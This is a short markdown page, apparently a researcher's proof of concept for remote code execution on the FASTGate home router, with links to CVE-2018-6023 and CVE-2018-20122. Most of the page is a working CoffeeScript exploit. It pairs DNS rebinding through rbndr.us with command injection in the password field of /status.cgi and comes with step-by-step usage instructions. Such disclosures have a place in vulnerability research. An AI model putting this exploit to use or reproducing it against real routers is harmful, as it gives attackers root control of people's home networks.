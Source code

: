 ```yaml
---
title: FASTGate-RCE
description: Abusing DNS to exploit a command injection and obtain root
layout: default
lang: en
prefetch:
  - cve.mitre.org
  - www.exploit-db.com
  - www.fastweb.it
---
```


This is the combination of already available exploit and attack techniques.


Serve the exploit as the index of a local webserver.
Craft a tailored `payload.shell` to verify the execution.
Open a web browser and visit `7f000001.c0a801fe.rbndr.us`
(switch between localhost and 192.168.1.254).

```coffeescript

ajax = (url, params, hdrs) ->
  try
    req = new XMLHttpRequest

    qs = new URLSearchParams
    if params
      `for (const [key, val] of Object.entries(params)) {
        qs.append(key, val);
      }`
      url += "?#{qs.toString()}"

    req.open 'GET', url, 0
    req.setRequestHeader 'X-Requested-With', 'XMLHttpRequest'
    req.setRequestHeader 'Content-type', 'application/x-www-form-urlencoded'
    if hdrs
      `for (const [key, val] of Object.entries(hdrs)) {
        req.setRequestHeader(key, val);
      }`

    req.send()
    if req.status == 200
      req.responseText
    else
      null

  catch
    null

random_string = (len) ->
  ascii_letters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
  digits = '0123456789'
  letters = ascii_letters + digits
  result = ''
  for i in [0...len]
    result += letters.charAt Math.random() * letters.length
  return result

exploit = (cmd, token) ->
  params = {
    '_': "#{Math.round (new Date).getTime() / 1000}pytester#{random_string 12}",
    'sessionKey': 'NULL',
    'cmd': '3',
    'nvget': 'login_confirm',
    'username': random_string(4),
    'password': "'; #{cmd} ; #"
  }
  hdrs = {
    'X-XSRF-TOKEN': token,
    'DNT': '1',
    'Cookie': document.cookie
  }
  ajax '/status.cgi', params, hdrs

isthisyou = ->
  ajax '/status.cgi', {
    '_': "#{Math.round Date.getTime / 1000}pytester#{random_string 12}"
  }

class @Payload
  set = ->
    this.code = ajax '/payload.shell' if !isthisyou()
    return
  hasnot = ->
    !this.code?
  get = ->
    this.code

mp = new Payload
mp.set() while mp.hasnot()
token = Math.round Math.random * 100000000000
document.cookie = "XSRF-TOKEN=#{token}"
while true
  if isthisyou()
    exploit mp.get(), token
    break

```


Nothing prevents remote exploitation, root is gained.
Shell shoveling and verification is voluntarily omitted.

## Links

- ~~http://www.fastweb.it/forum/servizi-rete-fissa-tematiche-tecniche/urgente-vulnerabilita-modem-fastgate-0-00-47-t22720.html~~
- [https://www.exploit-db.com/exploits/44606/](https://www.exploit-db.com/exploits/44606/)
- [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6023](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6023)
- [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20122](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20122)
- [https://github.com/taviso/rbndr](https://github.com/taviso/rbndr)
- [https://github.com/Depau/fastgate-python](https://github.com/Depau/fastgate-python)
- [https://github.com/Nimayer/fastgate-toolkit](https://github.com/Nimayer/fastgate-toolkit)
